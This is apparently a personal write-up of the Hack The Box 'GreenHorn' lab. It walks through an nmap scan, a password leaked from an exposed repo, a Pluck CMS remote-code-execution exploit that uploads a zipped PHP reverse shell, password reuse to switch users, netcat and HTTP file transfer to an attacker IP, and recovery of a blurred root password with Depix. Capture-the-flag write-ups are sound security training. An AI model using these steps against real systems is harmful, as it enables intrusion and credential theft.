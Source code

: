 
2024-08-13 16:34

Source:  #htb #Boot2root 

Tags: [[Linux]]
### Reconnaissance 

[[nmap]] scan tells us we have 5 ports open 
```
nmap -sS -p- -n -Pn -A --min-rate=9362 $IP
```
- `sS`: This option specifies a `SYN` scan  
- `-p-`: This option tells `nmap` to scan all `65,535` ports.  
- `-n`: This option is speeds up the scan by avoiding `DNS` resolution.  
- `-Pn`: This option disables host discovery, treating all hosts as online. This is useful for scanning hosts that may be blocking `ICMP` ping requests.  
- `--min-rate=9362`: This option sets the minimum number of packets per second to be sent during the scan. This speeds up the scan but may increase the likelihood of being detected by security systems.   
- `-A`: This option enables OS detection, version detection, script scanning, and traceroute.
```
http-title: Did not follow redirect to [http://greenhorn.htb/](http://greenhorn.htb/)
```
indicates that the HTTP service running on port 80 is configured to redirect requests to `[http://greenhorn.htb](http://greenhorn.htb/)` . However `nmap` did not follow this redirect because it doesn't resolve the `greenhorn.htb` domain name

Add an entry to your `/etc/hosts` file to map the `greenhorn.htb` domain to the IP address of the target machine

The URL parameter `file` might be used to include files on the server-side. This can potentially be exploited for Local File Inclusion (LFI) if the parameter is not properly sanitized. but this doesn't work
### Enumeration

original website served at `http://greenhorn.htb` doesn't give any hints therefore we try connecting to a different port `http://greenhorn.htb:3000` here the website served has a repo containing files of the website at the original address

on searching around a little we find that we have a password file in the `data/settings` directory. we check `data` cause `robots.txt` says not to.
we also find a `login.php` file, that doesn't take a username and the password is what we found hashed in the repo before
### Pluck CMS exploit

on logging in we find the version number, we find a [[RCE]] exploit for this on `exploitdb`
the exploit says that we can get `revshell` by uploading a zip file in the install module page of the application 
download a `php` `revshell` from `pentestmonkey` and zip it using 
```shell
zip phprevshell.zip phprevshell.php
```
### Privilege Escalation 

after getting a shell we see there is a directory name junior in the home directory that we can't access thereby suggesting that there might be a user named junior.
to check the files the junior owns use [[find]]
```bash
find / -type f -user junior 2>/dev/null
```
`su junior` to login as junior use the hashed password we found before. 

> **Remember to try out previously found passwords to login** 

along with the user.txt we also have a pdf that we can't open on that machine so we need to transfer that file to our system 
#### File transfer
##### [[File transfer]] using [[py]]

on pwnbox - 
```python 
python3 -m http.server 3333
```
on local kali
```bash
wget greenhorn.htb:3333/openvas.pdf
```
##### File Transfer using [[netcat]]

on local kali
```bash
nc -lvp 1234 > 'Using OpenVAS.pdf'
```
on pwnbox
```shell
nc 10.10.16.102 1234 < 'Using OpenVAS.pdf'
```
here the IP is your machines tun0 IP

to open the pdf file that has quotes use eg- `'OpenVAS.pdf'`
```shell
ll Using\ OpenVAS.pdf
```

the pdf contains some instructions to login as root but the password is blurred, it is blurred image of the password pasted on top of the pdf 
to 
#### Extract image form the pdf  
##### Method 1
```
pdfimages "./Using OpenVAS.pdf" greenhorn
```
##### Method 2
[Extract PDF images - quick, online, free - PDF24 Tools](https://tools.pdf24.org/en/extract-images)

to clean the blurred image use `Depix` tool [[stego]]
```
python3 depix.py \
    -p /path/to/your/input/image.png \
    -s images/searchimages/debruinseq_notepad_Windows10_closeAndSpaced.png \
    -o /path/to/your/output.png
```
after a while we get the password of the root user

### References
https://app.hackthebox.com/machines/GreenHorn

DEPIX - [GitHub - spipm/Depix: Recovers passwords from pixelized screenshots](https://github.com/spipm/Depix)

Walkthrough -->
[GreenHorn Hack the Box Walkthrough | by Ibrahim Isiaq Bolaji | Jul, 2024 | Medium](https://medium.com/@ibrahimbolaji50.ib/greenhorn-hack-the-box-walkthrough-2bdd839c4177)

[HackTheBox - GreenHorn CTF | by Zain | Jul, 2024 | Medium](https://medium.com/@3zain21/hackthebox-greenhorn-ctf-c2bc9c744951)
